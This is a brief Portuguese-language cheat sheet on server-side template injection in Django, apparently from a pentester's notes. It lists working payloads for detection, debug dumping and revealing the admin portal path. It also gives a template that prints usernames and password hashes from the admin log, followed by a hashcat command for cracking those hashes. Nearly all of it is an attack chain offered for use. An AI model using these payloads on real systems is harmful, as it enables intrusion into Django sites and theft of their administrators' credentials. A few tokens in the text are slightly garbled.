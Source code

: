 ```yaml
---
hidden: true
---
```


# Injeção de Modelo no Servidor

**Detecção:** `{% if 'ahsan' == 'ahsan' %} a {% endif %}`

**Depuração:** `{% debug %}`

**Divulgando Portal do Admin:** `{% include 'admin/base.html' %}` <mark style="color:green;">= /secret-admin-portal</mark>



**Divulgando Credenciais:**

<pre><code>{% load log %} {% get_admin_log 10 <a data-footnote-ref href="#user-content-fn-1">as</a> log %} {% for e in log %}
{{e.user.get username}} : {{e.user.password}} {% endfor %}
</code></pre>



**Credenciais com hash do Django Descartadas**



**Descriptografado usando Hashcat:**&#x20;

`hashcat -m 10000 hashed_passwords rockyou. txt` <mark style="color:green;">= Django Admin Panel Pwn</mark>

[^1]: 
